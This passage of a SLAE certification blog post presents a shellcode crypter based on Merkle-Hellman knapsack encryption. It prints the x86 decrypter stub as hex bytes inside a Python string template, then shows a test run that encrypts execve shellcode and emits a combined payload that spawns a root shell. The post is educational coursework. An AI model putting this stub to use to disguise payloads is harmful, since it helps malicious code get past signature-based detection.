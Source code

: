 And you can see that before inserting it in a python script, I've replaced the original shellcode length byte, the private key bytes and the encrypted shellcode bytes, with three string format fields so it can be easily used with any shellcode we want. 
```python
# Merkle-Hellman crypter stub :
decrypter = "\\xeb\\x4d\\x66\\x8b\\x43\\x0a\\x66\\xf7\\x26\\x66\\xf7\\x73\\x08\\x66\\x89\\xd0\\xc3\\x5b\\x8d\\x7b\\x0c\\x89\\xfe\\x31\\xc9\\xf7\\xe1\\xb1{size}\\xe8\\xe0\\xff\\xff\\xff\\x66\\x51\\xb1\\x08\\x01\\xcb\\x4b\\x99\\x8a\\x13\\x66\\x39\\xd0\\xf8\\x78\\x04\\x66\\x29\\xd0\\xf9\\xd1\\xdd\\xfe\\xc9\\x75\\xec\\xc1\\xed\\x18\\x87\\xea\\x88\\x17\\x47\\x8d\\x76\\x02\\x66\\x59\\x66\\x49\\x75\\xd0\\xeb\\x11\\xe8\\xbd\\xff\\xff\\xff{pki}{encrypted}"
```

And now, we will test it with the execve shellcode :

```plaintext
root@kali:/mnt/hgfs/shared/slae-exam/assignment-07# ./mhk-crypter.py 
Encrypted shellcode (42 bytes):
\x4c\x0a\x14\x0d\x3f\x16\x36\x08\xd3\x03\x0a\x09\xf2\x13\xae\x18\x61\x12\x0a\x09\x0a\x09\xae\x18\xae\x18\xd2\x09\x78\x0e\x62\x0c\x99\x0f\x37\x05\x6c\x13\x99\x10\x59\x00

Private key (12 bytes):
\x01\x02\x05\x09\x13\x25\x4b\x96\x58\x09\x81\x08

Encrypted shellcode + Decrypter stub (138 bytes):
\xeb\x4d\x66\x8b\x43\x0a\x66\xf7\x26\x66\xf7\x73\x08\x66\x89\xd0\xc3\x5b\x8d\x7b\x0c\x89\xfe\x31\xc9\xf7\xe1\xb1\x15\xe8\xe0\xff\xff\xff\x66\x51\xb1\x08\x01\xcb\x4b\x99\x8a\x13\x66\x39\xd0\xf8\x78\x04\x66\x29\xd0\xf9\xd1\xdd\xfe\xc9\x75\xec\xc1\xed\x18\x87\xea\x88\x17\x47\x8d\x76\x02\x66\x59\x66\x49\x75\xd0\xeb\x11\xe8\xbd\xff\xff\xff\x01\x02\x05\x09\x13\x25\x4b\x96\x58\x09\x81\x08\x4c\x0a\x14\x0d\x3f\x16\x36\x08\xd3\x03\x0a\x09\xf2\x13\xae\x18\x61\x12\x0a\x09\x0a\x09\xae\x18\xae\x18\xd2\x09\x78\x0e\x62\x0c\x99\x0f\x37\x05\x6c\x13\x99\x10\x59\x00

Running shellcode....
# id
uid=0(root) gid=0(root) groups=0(root)
# 

```

And this is the end of this assignement and of the SLAE 32 bits serie,

Thank you for reading !


***This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
Student ID: PA-14186***
